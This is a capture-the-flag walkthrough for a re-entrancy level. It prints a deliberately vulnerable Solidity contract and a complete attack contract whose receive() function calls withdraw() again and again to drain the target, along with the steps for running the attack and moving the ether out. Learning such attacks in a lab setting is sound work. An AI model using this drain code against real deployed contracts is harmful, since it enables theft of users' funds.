



***Re-entrancy***

The goal of this level is for you to steal all the funds from the contract.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

Firstly, we know we'll need our contract to call `withdraw()` and `donate`. Let's make sure we can do that before we begin.

Let's launch an instance and load this into Remix. We'll need to get a copy of openzeppelin's safeMath library, which we can find on their github. It took a bit of digging, but I've added the version found here: https://github.com/OpenZeppelin/openzeppelin-contracts/blob/56de324afea13c4649b00ca8c3a3e3535d532bd4/contracts/math/SafeMath.sol



Notice I've renamed it `math.sol` in both the directory and the import statement.

That's one way to access the functions of a target contract, but I'll show you an easier approach as well.

We'll create an interface for two functions we'll need to call in the target contract:

```
function donate(address _to) external payable;
function withdraw(uint _amount) external;

targetContract = targetInterface(_targetAddr);
targetInterface targetContract;
```

Now when we create a contract interface in our hacking contract, we can call the functions of the target contract without having to import it.



The goal for any re-entrancy attack is generally to abuse a contract that's interacting with another contract, then changing some value. For example, in this challenge, the withdraw function does the following:

**`withdraw()`**:
1. check to make sure the sender has some funds to withdraw
2. send some funds
3. decrease the sender's balance

but remember that a smart contract can execute a function upon recieving funds. What if when our contract recieved the funds, we called `withdraw()` again?

**`withdraw()`**:
1. check to make sure the sender has some funds to withdraw
2. ***send some funds***
   1. check to make sure the sender has some funds to withdraw
   2. ***send some funds***
      1. check to make sure the sender has some funds to withdraw
      2. ***send some funds***...

lmao. let's do that.

Below is the completed code of the `hack.sol` contract:

```
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

interface targetInterface {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract Hack {
    address public owner;
    targetInterface targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = targetInterface(_targetAddr);
        owner = msg.sender;
    }

    function extractFunds() external payable{
      require(msg.sender==owner, "You are not the owner");
      (bool sent,) = owner.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }

    function donate() external payable{//0xed88c68e, web3.utils.sha3 -> first 8 chars after 0x
      require(msg.value >= targetValue);
      targetContract.donate{value:msg.value}(address(this));
    }

    function withdraw() external{
      targetContract.withdraw(targetValue);
    }

    receive() external payable{
      if(msg.sender==address(targetContract)){
        if(address(targetContract).balance>=targetValue){
        targetContract.withdraw(targetValue);
        }
      }
    }
}
```

We'll start by calling `donate()` with the ethernaut command-line tools. This sends some ETH to the target contract, increasing the total balance of the target contract to 0.002 ETH and granting our hacking contract the right to withdraw up to 0.001 ETH.

Next, when we call `withdraw()`, the target contract will return our 0.001 ETH, triggering the `recieve()` function that then again requests a withdraw. Because the target contract hasn't yet decremented the balance of our hacking contract, we're allowed a second, malicious withdraw that empties the target contract.

We can now `extractFunds()`, returning the ether we've gained to our own wallet.


